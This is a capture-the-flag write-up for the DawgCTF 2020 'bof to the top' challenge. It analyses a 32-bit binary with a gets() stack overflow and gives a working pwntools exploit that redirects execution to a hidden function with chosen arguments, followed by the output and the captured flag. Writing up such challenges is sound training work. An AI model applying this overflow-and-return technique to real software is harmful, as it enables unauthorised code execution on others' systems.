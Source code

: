 # DawgCTF 2020

## bof to the top

> 100
>
> Anything it takes to climb the ladder of success
>
> `nc ctf.umbccd.io 4000`
>
> Author: trashcanna>
> 
> [bof](bof)

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Can exploit GOT, overflow the stack, easy ROP as a start.


#### Decompile with Ghidra

There are two functions of interest: `get_audition_info` and `audition`.

Main just calls:

![](get_audition_info.png)

`get_audition_info` has a `gets` vulnerability.

There is no call to:

![](audition.png)

`iVar1` is set to the address following the call to `__x86.get_pc_thunk.ax` (`0x0804918e`):

```
08049189 e8 ff 00 00 00          CALL       __x86.get_pc_thunk.ax
0804918e 05 72 2e 00 00          ADD        EAX,0x2e72
```

The argument to `system`: `iVar1 + 0xe7a` (`0x804918e + 0xe7a = 0x804a008`) points to the string `/bin/cat flag.txt`:

```
0804a008 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 
```

Clearly this is the function we want to call, however, two parameters are required, and only the correct values will call `system`.


### Exploit

#### Attack Plan

1. Overflow buffer, smash stack, and call `audition` with parameters `0x4b0` and `0x16e`
2. Get the flag.


#### Overflow buffer, smash stack, and call `audition` with parameters `0x4b0` and `0x16e`

From the disassembly, `local_70` is `0x6c` bytes above the saved base pointer and the return address:

```
0804920c 8d 45 94        LEA        EAX=>local_70,[EBP + -0x6c]
```

Code:

```
from pwn import *

#p = process('./bof')
p = remote('ctf.umbccd.io', 4000)

binary = ELF('bof')

p.recvuntil('name?\n')
p.sendline("foo")
p.recvuntil('singing?\n')

payload  = 0x6c * b'A'
payload += 4 * b'B'
payload += p32(binary.symbols['audition'])
payload += p32(0x0)
payload += p32(0x4b0)
payload += p32(0x16e)

p.sendline(payload)
p.stream()
```

The payload sends `0x6c` `A`s to get to the saved base pointer, then 4 `B`s to overwrite that, then the address to `audition`, with where we'd like to return to after `audition`, but we do not care, lastly the two arguments to `audition`.

Output:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] '/pwd/datajerk/dawgctf2020/bof-to-the-top/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
DawgCTF{wh@t_teAm?}
```

#### Flag

```
DawgCTF{wh@t_teAm?}
```
